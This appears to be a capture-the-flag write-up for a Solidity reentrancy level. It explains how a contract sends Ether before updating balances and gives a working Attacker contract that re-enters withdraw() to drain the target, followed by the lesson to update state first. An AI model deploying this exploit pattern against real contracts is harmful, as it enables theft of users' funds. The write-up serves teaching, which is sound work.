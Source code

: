 Level 10: Re-entrancy

Objective:

Drain all Ether from the contract.

Vulnerability:

The contract sends ether before updating the users balance thus doing rentrancy

Explanation:

When the contract sends ether to a caller, it should first reduce the balance before transferring. Otherwise the attacker can re-enter the withdraw function repeatedly before the balance is updated.

Solution:

Deploy an attacker contract:

contract Attacker {
  Reentrance public target;

  constructor(address _target) payable {
    target = Reentrance(_target);
  }

  function attack() external {
    target.donate{value: 1 ether}(address(this));
    target.withdraw(1 ether);
  }

  receive() external payable {
    if (address(target).balance > 0) {
      target.withdraw(1 ether);
    }
  }
}

Key Takeaways:

Always update state before sending Ether.

